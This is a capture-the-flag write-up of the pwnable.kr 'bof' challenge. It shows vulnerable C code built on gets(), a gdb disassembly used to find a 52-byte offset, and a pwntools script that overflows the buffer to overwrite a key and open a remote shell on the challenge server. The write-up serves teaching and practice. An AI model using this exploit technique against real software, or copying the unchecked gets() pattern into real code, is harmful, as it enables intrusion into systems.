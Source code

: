## Description
bof - 5 pt [writeup]

> Nana told me that buffer overflow is one of the most common software vulnerability. 
> Is that true?
>
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c
>
> Running at : nc pwnable.kr 9000

## Solution
We are given a binary file `bof`, and it's source code `bof.c`. Let's take a look at the source code:
### bof.c
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
As we can see, when the program is executed regularly, it calls `func` with the argument `0xdeadbeef`, which is then compared to `0xcafebabe`.\
Because the arguments are different, the program will print `Nah..` and exit.
We need to find a way to make the program call `system("/bin/sh")` instead of `printf("Nah..")`.

We can see that the program calls `gets` to read input from the user.\
`gets` doesn't check the length of the input, so we can overflow the buffer `overflowme` and overwrite the `key` variable, which then will be compared to `0xcafebabe`.
Now we just need to find out how much we need to pad our input with to overwrite the `key` variable with `0xcafebabe`.

```shell
$ cyclic(64)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa'
$ gdb bof
pwndbg> disassemble func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   ....
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0xf7de48b0 <_IO_gets> # gets is called here
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe # key is compared to 0xcafebabe here
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   ....
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
```
We can see that the `key` variable is located at `ebp+0x8`, and the `overflowme` buffer is located at `ebp-0x2c`.\
Meaning that we need to pad our input with `0x2c+0x8`, which is `52` bytes, to overwrite the `key` variable.

Let's try it out:
```python
from pwn import *

payl = b"\x61" * 52 + b"\xbe\xba\xfe\xca"

shell = remote("pwnable.kr",9000)
shell.send(payl)
shell.interactive()
```
and it works!
```shell
$ python3 exp.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ cat flag
[ .......... ]
```

## Setup
```shell
$ wget http://pwnable.kr/bin/bof http://pwnable.kr/bin/bof.c
$ chmod +x bof
```
